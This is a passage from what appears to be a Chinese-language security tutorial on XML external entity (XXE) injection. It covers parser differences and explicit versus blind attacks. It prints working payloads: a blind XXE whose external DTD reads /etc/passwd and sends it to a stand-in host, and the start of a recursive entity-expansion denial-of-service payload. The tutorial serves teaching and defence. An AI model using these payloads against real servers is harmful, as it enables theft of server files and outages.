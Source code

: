 	<wooyun>
	  <external>&file;</external>
	</wooyun>
不同的解析器可能默认对于外部实体会有不同的处理规则,以PHP语言为例，xml_parse的实现方式为expat库，而simplexml_load使用的是libxml库，两个底层库在解析的时候细节并不一样，expat默认对外部实体并不解析，而simplexml_load默认情况下会解析外部实体等，所以simplexml_load函数会受此问题影响，而xml_parse则默认不会受到影响。下面是几种常见语言可能会受到此问题影响的解析XML的方法：

|PHP	|Java	|.NET|
| -----|:----:| ----:|
|DOM	|	|System.Xml.XmlDocument|
|SimpleXML|		|System.Xml.XmlReader|

**3、攻击方式及危害**

---
XXE的攻击方式分为显式攻击和盲攻击两种：

上述POC即为显式攻击，攻击者通过正常的回显将外部实体里的内容读取出来。

但是，在有些情况下无法通过这种方式完成XXE攻击，这时我们可以采取盲攻击的办法。

XXE盲攻击利用参数实体将本地文件内容读出来后，作为URL中的参数向其指定服务器发起请求，然后在其指定服务器的日志（Apache日志）中读出文件的内容。

因在dtd中使用%来定义参数实体的方式只能在外部子集中使用，或由外部文件定义参数实体，引用到XML文件的dtd来使用，所以XML文件稍有不同：

	<?xml version="1.0" encoding="utf-8"?>
	 
	<!DOCTYPE entity [
	  <!ENTITY % call SYSTEM "http://example.com/evil.xml">
	  %call;
	]>
	 
	<wooyun>
	  <text>test</text>
	</wooyun>
其中`http://example.com/evil.xml`里的内容是：

	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://example.com/?file=%file;'>">
	%int;
	%send;
危害：

XXE漏洞会导致读取任意未授权文件，如上述POC即可读取服务器中的/etc/passwd文件；

因为基于树的XML解析器会把全部加载到内存中，因此XXE漏洞也有可能被用来恶意消耗内存进行拒绝服务攻击，例如:

	<?xml version = "1.0"?>
	 
	<!DOCTYPE entity [  
	    <!ENTITY wooyun "wooyun">
	    <!ELEMENT wooyunz (#PCDATA)>
	    <!ENTITY wooyun1 "&wooyun;&wooyun;&wooyun;&wooyun;&wooyun;&wooyun;&wooyun;&wooyun;&wooyun;&wooyun;">
	    <!ENTITY wooyun2 "&wooyun1;&wooyun1;&wooyun1;&wooyun1;&wooyun1;&wooyun1;&wooyun1;&wooyun1;&wooyun1;&wooyun1;">
	    <!ENTITY wooyun3 "&wooyun2;&wooyun2;&wooyun2;&wooyun2;&wooyun2;&wooyun2;&wooyun2;&wooyun2;&wooyun2;&wooyun2;">
	    <!ENTITY wooyun4 "&wooyun3;&wooyun3;&wooyun3;&wooyun3;&wooyun3;&wooyun3;&wooyun3;&wooyun3;&wooyun3;&wooyun3;">
	    <!ENTITY wooyun5 "&wooyun4;&wooyun4;&wooyun4;&wooyun4;&wooyun4;&wooyun4;&wooyun4;&wooyun4;&wooyun4;&wooyun4;">
	    <!ENTITY wooyun6 "&wooyun5;&wooyun5;&wooyun5;&wooyun5;&wooyun5;&wooyun5;&wooyun5;&wooyun5;&wooyun5;&wooyun5;">
	    <!ENTITY wooyun7 "&wooyun6;&wooyun6;&wooyun6;&wooyun6;&wooyun6;&wooyun6;&wooyun6;&wooyun6;&wooyun6;&wooyun6;">
	    <!ENTITY wooyun8 "&wooyun7;&wooyun7;&wooyun7;&wooyun7;&wooyun7;&wooyun7;&wooyun7;&wooyun7;&wooyun7;&wooyun7;">